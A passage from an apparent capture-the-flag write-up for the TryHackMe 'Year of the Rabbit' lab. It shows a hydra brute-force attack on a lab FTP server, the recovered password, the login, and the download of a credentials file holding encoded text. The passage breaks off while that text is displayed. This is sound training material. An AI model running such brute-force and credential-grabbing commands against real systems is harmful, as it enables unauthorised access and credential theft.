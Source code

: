 ```
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```
Let's save the password to a file called `ftp_passwords.txt`.
Now using `hydra` we can brute force the FTP login.
```
$ hydra -l ftpuser -P /home/kunal/tryhackme/yearoftherabbit/ftp_passwords.txt ftp://10.10.181.61 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 23:12:11
[DATA] max 4 tasks per 1 server, overall 4 tasks, 82 login tries (l:1/p:82), ~21 tries per task
[DATA] attacking ftp://10.10.181.61:21/
[21][ftp] host: 10.10.181.61   login: ftpuser   password: 5iez1wGXKfPKQ
[STATUS] 82.00 tries/min, 82 tries in 00:01h, 1 to do in 00:01h, 3 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 23:13:12
```
So the password for `ftpuser` is `5iez1wGXKfPKQ`.

Let's login using those credentials.
```
$ ftp ftpuser@10.10.181.61
Connected to 10.10.181.61.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Let's look around for important files.
```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
```
We can download the `Eli's_Creds.txt` file to our machine using the `get` command.
```
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |***********************************************************************************************************************************************************************************************|   758        0.74 KiB/s    --:-- ETA
226 Transfer complete.
758 bytes received in 00:00 (2.40 KiB/s)
```
Let's read the contents of the file.
```
$ cat Eli\'s_Creds.txt        
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
```